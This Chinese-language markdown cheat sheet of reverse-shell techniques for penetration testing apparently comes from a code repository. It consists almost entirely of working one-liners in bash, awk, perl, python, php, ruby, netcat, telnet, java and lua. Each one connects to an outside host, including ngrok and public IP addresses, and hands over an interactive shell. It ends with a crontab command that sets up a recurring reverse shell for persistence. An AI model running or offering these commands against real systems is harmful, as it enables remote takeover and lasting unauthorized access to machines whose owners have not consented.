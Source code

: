 # 渗透过程中的端口反弹

反弹

	反弹的各种姿势。
python -c 'import pty; pty.spawn("/bin/bash")'
-------------------
### bash版本：
``` bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

### awk版本：
``` awk
awk 'BEGIN{s="/inet/tcp/0/192.168.3.251/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
注意这个是由解析shell的bash完成，所以某些情况下不支持

###perl版本:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
###python版本:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.ngrok.io",10036));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
###php版本：
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
###ruby版本：
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
###nc版本：
```bash
nc -e /bin/sh 223.8.200.234 1234
```
###nc不使用-e：
```bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```
###mknod:
```
目标机器：# telnet 192.168.3.251 8080 | /bin/bash | telnet 192.168.3.251 1080
客户端：# nc -lvvp 8080 [传输指令]
# nc -lvvp 1080 [传输命令结果数据]

目标：mknod test p && telnet 192.168.3.251  8080 0<test | /bin/bash 1>test
客户端：nc -lvvp 8080

mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```
###java版本：
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/202.103.243.122/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###lua版本：
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

###计划任务：
```cron
(crontab -l;printf "* * * * *  /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.3.251\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n")|crontab -
```